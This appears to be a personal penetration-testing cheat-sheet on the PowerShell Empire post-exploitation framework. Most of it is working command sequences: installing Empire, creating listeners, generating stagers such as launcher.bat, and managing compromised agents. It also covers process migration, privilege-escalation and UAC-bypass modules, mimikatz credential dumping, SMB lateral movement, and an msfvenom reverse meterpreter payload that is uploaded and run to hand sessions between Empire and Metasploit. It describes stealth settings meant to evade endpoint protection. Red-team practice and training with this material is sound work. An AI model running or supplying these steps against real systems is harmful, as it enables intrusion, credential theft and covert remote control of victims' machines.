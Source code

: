 ```yaml
---
title: Empire
author: i4
date: M11-02-2022
---
```


#postExploitation

## Insallation
```bash
cd /opt
sudo git clone https://github.com/PowerShellEmpire/Empire.git
cd Empire
sudo ./setup/install.sh
```

#### Listener

> Listeners in Empire are the channels that receive connections from our target machine. Before we do anything in Empire, we need to start the listeners. We can move to the listener management menu by typing command listeners as shown below.

It is basically the same as the `multi/handler` listener in [[metasploit]].

`(Empire) > listeners`

`(Empire: listeners) > help`

* agents - Will allow you to jump to agents menu.
* back & main – Will take you back to the main menu.
* exit – Will exit from Empire.
* help – Will display help menu as shown in the above image.
* info – Will display information about the active listener.
* kill – Will kill a particular listener.
* launcher – Used to generate an initial launcher for a listener.
* list – Will list all the active listeners.
* usestager – Used to use a stager (we will see below what exactly is a stager).
* uselistener – Used to start a listener module.

##### Create new listener
- The redirector listener allows pivoting across a compromised host.

```
(Empire: listeners) > uselistener
dbx     http_com        http_hop
http    http_foreign    meterpreter
(Empire: listeners) > uselistener meterpreter
(Empire: listeners/meterpreter) > set DefaultDelay 60
(Empire: listeners/meterpreter) > set Name metr
(Empire: listeners/meterpreter) > set Port 4444
```

* _DefaultDelay_ attempts to simulate more legitimate HTTP traffic by setting the wait interval callback time from the compromised host to the listener. _DefaultJitter_ makes the traffic seem less programmatically generated by setting _DefaultDelay_ to a random offset. _KillDate_ will self-terminate the listeners on all compromised hosts on the specified date. This is especially useful when performing cleanup after a penetration test.

### Stagers
Stagers are payloads that are able to create a reverse tunnel and other means for Empire to connect to the target (just like msfvenom for metasploit)
```
(Empire) > usestager

multi/bash                osx/macho                 windows/launcher_bat
multi/launcher            osx/macro                 windows/launcher_lnk
multi/macro               osx/pkg                   windows/launcher_sct
multi/pyinstaller         osx/safari_launcher       windows/launcher_vbs
multi/war                 osx/teensy                windows/launcher_xml
osx/applescript           windows/backdoorLnkMacro  windows/macro
osx/application           windows/bunny             windows/macroless_msword
osx/ducky                 windows/csharp_exe        windows/shellcode
osx/dylib                 windows/dll               windows/teensy
osx/jar                   windows/ducky
osx/launcher              windows/hta
(Empire) > usestager launcher_bat
(Empire: stager/windows/launcher_bat) > set Listener metrp
(Empire: stager/windows/launcher_bat) > execute

[*] Stager output written out to: /tmp/launcher.bat

(Empire: stager/windows/launcher_bat) >
```


### Agents
As soon as the stager gets executed on the victim we receive a connection back.
```
(Empire: agents) >  list

[*] Active agents:

 Name       Lang    Internal IP     Machine Name    Username    Process         Delay   Last Seen
 --------   ----    --------------  -------------   --------    -------         -----   -------------------
 7A9WSDPN   ps      XXXXXXXXXXXXXX  XXXXXXXXXXXXX   XXXXXXXX    powershell/4032 5/0.0   2020-03-29 09:00:44
```

### Migration
```empire
> ps # select a process to migrate to
> psmigrate [name of the listener] [PID]
```

### Modules
```empire
> usemodule
> usemodule [fullpath]
> ([module fullpath]) > info
```

- If the _NeedsAdmin_ field is set to "True", the script requires local Administrator permissions.
- If the _OpsecSafe_ field is set to "True", the script will avoid leaving behind indicators of compromise, such as temporary disk files or new user accounts. This stealth-driven approach has a greater likelihood of evading endpoint protection mechanisms.
- The _MinLanguageVersion_ field describes the minimum version of PowerShell required to execute the script. This is especially relevant when working with Windows 7 or Windows Server 2008 R2 targets as they ship with PowerShell version 2.
- _Background_ tells us if the module executes in the background without visibility for the victim, while _OutputExtension_ tells us the output format if the module returns output to a file.

#### Privilege Escalation
```
> usemodule powershell/privesc/powerup/allchecks
> usemodule privesc/bypassuac_fodhelper # UAC bypass 
> usemodule credentials/mimikatz/logonpasswords
```

#### Lateral movements
```
> usemodule lateral_movement
> usemodule lateral_movement/invoke_smbexec
```
### Switching to 
#### [[Metasploit]] >> [[empire]]
If a machine runs an empire agent we can create a meterpreter binary with [[msfvenom]] and execute it on the host
```bash
msfvenom -p windows/meterpreter/reverse_http LHOST=[ip] lport=[port] -f exe -o met.exe
```

```empire
> upload /home/user/met.exe
> shell dir
> shell [fullpath]/met.exe
```

#### [[empire]] >> [[metasploit]]
```empire
> usestager windows/launcher_bat
> set listener http
> execute
```
```metapreter
> upload /tmp/launcher.bat
> shell
> dir
> launcher.bat
```
